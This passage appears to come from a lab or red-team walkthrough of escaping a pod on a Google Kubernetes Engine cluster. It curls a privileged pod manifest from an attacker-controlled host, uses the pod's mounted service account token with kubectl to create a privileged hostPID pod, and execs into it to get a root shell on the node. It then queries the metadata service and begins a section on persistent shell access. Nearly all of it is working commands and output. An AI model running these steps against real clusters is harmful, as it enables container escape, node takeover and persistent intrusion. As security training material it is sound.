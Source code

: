 ```bash
curl -vk http://<attacker_vm_public_ip>:8001/pod-esc.yaml -o /tmp/pod-esc.yaml
```

**Create the pod on the cluster**

```bash
kubectl --token=`cat /run/secrets/kubernetes.io/serviceaccount/token` --certificate-authority=/run/secrets/kubernetes.io/serviceaccount/ca.crt -n `cat /run/secrets/kubernetes.io/serviceaccount/namespace` --server=https://10.228.0.1/  apply -f /tmp/pod-esc.yaml
```

```
pod/priv-and-hostpid-exec-pod created
```

**Access the node via the just created escape pod**

```
kubectl --token=`cat /run/secrets/kubernetes.io/serviceaccount/token` --certificate-authority=/run/secrets/kubernetes.io/serviceaccount/ca.crt -n `cat /run/secrets/kubernetes.io/serviceaccount/namespace` --server=https://10.228.0.1/  exec -it priv-and-hostpid-exec-pod -n default  -- sh
```

```
Unable to use a TTY - input is not a terminal or the right kind of file
```

**Now you can run commands on the node**

```
id
```

```
uid=0(root) gid=0(root) groups=0(root)
```

**Verifying you are on the node via the Google Metadata Service**

```
curl -H 'Metadata-Flavor:Google' http://metadata.google.internal/computeMetadata/v1/instance/hostname
```

```
gke-lunalectric-gke--lunalectric-pool-0e144d64-33rz.us-central1-f.c.<username>-development-3.internal
```

## Gaining a persistant bash shell on the node

**Confirming the hostname and IP address of the node**
First we need to find out on which node we are operating.
Which we can confirm by just asking for the hostname.

```bash
hostname
```

```
gke-lunalectric-gke--lunalectric-pool-06b8ea4c-hnlj
```
